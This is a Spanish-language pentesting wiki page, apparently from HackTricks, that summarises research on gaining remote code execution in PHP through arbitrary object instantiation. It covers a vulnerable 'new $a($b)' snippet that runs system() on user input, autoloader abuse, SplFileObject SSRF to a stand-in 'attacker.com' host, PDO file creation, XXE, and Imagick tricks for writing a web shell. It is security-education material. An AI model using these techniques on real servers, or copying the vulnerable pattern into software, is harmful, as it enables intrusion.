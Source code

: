# PHP - RCE abusando de la creación de objetos: new $\_GET\["a"]\($\_GET\["b"])

{{#include ../../../banners/hacktricks-training.md}}

Esto es básicamente un resumen de [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Introducción

La creación de nuevos objetos arbitrarios, como `new $_GET["a"]($_GET["a"])`, puede llevar a la Ejecución Remota de Código (RCE), como se detalla en un [**informe**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Este documento destaca varias estrategias para lograr RCE.

## RCE a través de Clases Personalizadas o Autocarga

La sintaxis `new $a($b)` se utiliza para instanciar un objeto donde **`$a`** representa el nombre de la clase y **`$b`** es el primer argumento pasado al constructor. Estas variables pueden provenir de entradas de usuario como GET/POST, donde pueden ser cadenas o arreglos, o de JSON, donde podrían presentarse como otros tipos.

Considera el fragmento de código a continuación:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
En este caso, establecer `$a` en `App` o `App2` y `$b` en un comando del sistema (por ejemplo, `uname -a`) resulta en la ejecución de ese comando.

**Las funciones de autoloading** pueden ser explotadas si no hay tales clases accesibles directamente. Estas funciones cargan automáticamente clases desde archivos cuando se necesitan y se definen utilizando `spl_autoload_register` o `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
El comportamiento de la carga automática varía con las versiones de PHP, ofreciendo diferentes posibilidades de RCE.

## RCE a través de Clases Incorporadas

Al carecer de clases personalizadas o cargadores automáticos, **las clases incorporadas de PHP** pueden ser suficientes para RCE. El número de estas clases varía entre 100 y 200, según la versión de PHP y las extensiones. Se pueden listar usando `get_declared_classes()`.

Los constructores de interés se pueden identificar a través de la API de reflexión, como se muestra en el siguiente ejemplo y el enlace [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE a través de métodos específicos incluye:**

### **SSRF + Deserialización de Phar**

La clase `SplFileObject` permite SSRF a través de su constructor, permitiendo conexiones a cualquier URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF puede llevar a ataques de deserialización en versiones de PHP anteriores a 8.0 utilizando el protocolo Phar.

### **Explotando PDOs**

El constructor de la clase PDO permite conexiones a bases de datos a través de cadenas DSN, lo que potencialmente habilita la creación de archivos u otras interacciones:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Las versiones de PHP hasta 5.3.22 y 5.4.12 eran susceptibles a ataques XXE a través de los constructores `SoapClient` y `SimpleXMLElement`, dependiendo de la versión de libxml2.

## RCE a través de la extensión Imagick

En el análisis de las **dependencias de un proyecto**, se descubrió que **Imagick** podría ser aprovechado para **ejecución de comandos** al instanciar nuevos objetos. Esto presenta una oportunidad para explotar vulnerabilidades.

### Analizador VID

Se identificó la capacidad del analizador VID de escribir contenido en cualquier ruta especificada en el sistema de archivos. Esto podría llevar a la colocación de un shell PHP en un directorio accesible por la web, logrando Ejecución Remota de Código (RCE).

#### Analizador VID + Carga de Archivos

Se observa que PHP almacena temporalmente los archivos subidos en `/tmp/phpXXXXXX`. El analizador VID en Imagick, utilizando el protocolo **msl**, puede manejar comodines en las rutas de archivos, facilitando la transferencia del archivo temporal a una ubicación elegida. Este método ofrece un enfoque adicional para lograr escritura arbitraria de archivos dentro del sistema de archivos.

### Caída de PHP + Fuerza Bruta

Un método descrito en el [**escrito original**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) implica subir archivos que provocan una caída del servidor antes de su eliminación. Al forzar el nombre del archivo temporal, se vuelve posible que Imagick ejecute código PHP arbitrario. Sin embargo, se encontró que esta técnica solo era efectiva en una versión desactualizada de ImageMagick.

## Referencias

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{{#include ../../../banners/hacktricks-training.md}}
